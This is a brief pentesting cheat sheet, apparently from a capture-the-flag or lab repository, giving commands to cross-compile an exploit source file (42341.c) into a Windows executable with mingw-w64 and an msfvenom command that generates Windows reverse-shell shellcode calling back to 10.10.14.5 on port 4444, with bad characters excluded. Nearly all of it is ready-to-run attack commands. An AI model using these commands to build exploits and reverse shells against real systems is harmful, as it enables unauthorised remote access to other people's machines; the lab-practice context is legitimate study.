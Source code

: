 # Cross compiling from kali to exe for windows

```bash
sudo apt install mingw-w64

i686-w64-mingw32-gcc 42341.c -o exploit.exe

i686-w64-mingw32-gcc 42341.c -o exploit.exe -lws2_32
```

------------------

# MSF Venom shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```
